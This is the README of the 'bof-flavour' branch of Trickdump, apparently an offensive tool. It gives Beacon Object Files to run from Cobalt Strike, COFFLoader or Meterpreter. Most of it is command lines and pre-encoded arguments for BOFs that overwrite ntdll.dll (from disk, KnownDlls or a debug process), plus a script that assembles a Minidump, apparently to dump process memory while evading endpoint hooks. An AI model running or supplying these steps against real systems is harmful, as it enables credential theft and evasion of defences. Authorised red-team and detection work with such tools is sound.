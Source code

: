 # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).

I have tested the BOF files in Windows 10 and 11 systems, both 64 bits and no PPL, please consider testing the BOF file in a lab environment if you face different conditions.


-----------------------------------------

## Cobalt Strike

First import the aggressor scripts:

![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)

Each BOF file has one optional input argument for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

```
lock <OVERWRITE_TECHNIQUE>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
shock <OVERWRITE_TECHNIQUE>
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

```
barrel <OVERWRITE_TECHNIQUE>
``` 

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
trick <OVERWRITE_TECHNIQUE>
```

![bof6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)

Finally generate the Minidump file with *create_dump.py*. If you used the Trick BOF unzip the *trick.zip* file, even if there are problems with files headers it should work fine:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE]
```

![bof7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)


-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go <BOF_FILE> <OVERWRITE_TECHNIQUE>
```

The argument to overwrite the ntdll library must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py):
- "disk": Use the value *09000000050000006469736b00*
- "knowndlls": Use the value *0e0000000a0000006b6e6f776e646c6c7300*
- "debugproc": Use the value *0e0000000a000000646562756770726f6300*
  
Examples running each BOF file with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 09000000050000006469736b00
```

![bof8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go shock_bof.o 0e0000000a0000006b6e6f776e646c6c7300
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)

```
COFFLoader64.exe go barrel_bof.o 0e0000000a000000646562756770726f6300
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
COFFLoader64.exe go trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img12](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF12.png)


--------------------------------------

## Meterpreter's bofloader module

You can run the BOF files in your Meterpreter session after loading the "bofloader" module and using "--format-string z <technique>" to use a ntdll overwrite technique:

```
load bofloader
execute_bof lock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof shock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof barrel_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img14](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF14.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
execute_bof trick_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img16](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF16.png)

----------------------------------

## ⭐ Support This Project by Starring the Repository!

If you find this project helpful or interesting, please consider giving it a star 🌟 on GitHub!
